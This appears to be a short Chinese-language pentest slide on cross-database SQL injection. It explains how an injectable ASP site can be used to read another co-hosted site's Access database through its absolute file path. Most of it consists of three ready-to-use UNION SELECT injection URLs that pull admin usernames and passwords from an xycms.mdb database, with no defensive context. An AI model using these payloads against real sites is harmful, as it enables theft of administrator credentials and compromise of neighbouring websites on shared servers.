

# 垮裤查询
条件:同服务器下的站点有注入,知道对方站的数据库绝对路径，知道对方数据库表，表中的字段名可以用这个方法来跨库查询.
绝对路径： （D:/wwwroot/....*.mdb .asa .asp）
例如
a是目标站点 b是存在注入的站点 a,b是同服务器的站点
admin为数据库中的表
user为数据库中admin表的段
password为数据库中admin表的段.
http://xxx.com/news/type.asp?type?id=1 and 1=2 union select 1,2,user,4,5,6 from [D:\wwwroot\1\Databases\xycms.mdb].admin
http://127.0.0.1:81/0/Production/PRODUCT_DETAIL.asp?id=1451 union select 1,2,username,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22 from [D:\wwwroot\1\Databases\xycms.mdb].admin
http://127.0.0.1:99/0/Production/PRODUCT_DETAIL.asp?id=-1513%20UNION%20SELECT%201,2,admin,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22%20from%20admin_user%20in%20'C:\Users\Seven\Desktop\webpentest\1\xydata\xycms.mdb'